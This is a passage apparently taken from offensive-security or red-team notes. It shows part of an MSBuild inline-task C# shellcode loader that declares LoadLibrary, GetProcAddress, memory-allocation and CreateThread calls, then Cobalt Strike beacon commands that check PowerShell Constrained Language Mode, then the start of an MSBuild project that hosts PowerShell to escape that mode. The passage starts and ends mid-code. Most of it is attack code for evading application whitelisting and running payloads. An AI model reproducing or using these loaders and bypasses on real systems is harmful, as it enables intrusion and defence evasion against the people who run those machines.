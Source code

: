 ```c#
            private static extern IntPtr LoadLibrary([MarshalAs(UnmanagedType.LPStr)]string lpFileName);
    
            [DllImport("kernel32", CharSet = CharSet.Ansi)]
            private static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

            [DllImport("kernel32")]
            private static extern uint WaitForSingleObject(IntPtr hHandle, uint dwMilliseconds);

            [UnmanagedFunctionPointer(CallingConvention.StdCall)]
            private delegate IntPtr AllocateVirtualMemory(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    
            [UnmanagedFunctionPointer(CallingConvention.StdCall)]
            private delegate IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

            }

        ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>
```

### Powershell CLM

> If you try to run a script or command in PowerShell and see an error like "only core types in this language mode", then you know you're operating in a restricted environment

```bash
beacon> powershell $ExecutionContext.SessionState.LanguageMode
ConstrainedLanguage
beacon> powerpick $ExecutionContext.SessionState.LanguageMode
FullLanguage
```

```c#
//msbuild.exe posh.csproj
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <Target Name="MSBuild">
   <MSBuildTest/>
  </Target>
   <UsingTask
    TaskName="MSBuildTest"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
     <Task>
     <Reference Include="System.Management.Automation" />
      <Code Type="Class" Language="cs">
        <![CDATA[

            using System;
            using System.Linq;
            using System.Management.Automation;
            using System.Management.Automation.Runspaces;

            using Microsoft.Build.Framework;
            using Microsoft.Build.Utilities;

            public class MSBuildTest :  Task, ITask
            {
                public override bool Execute()
                {
```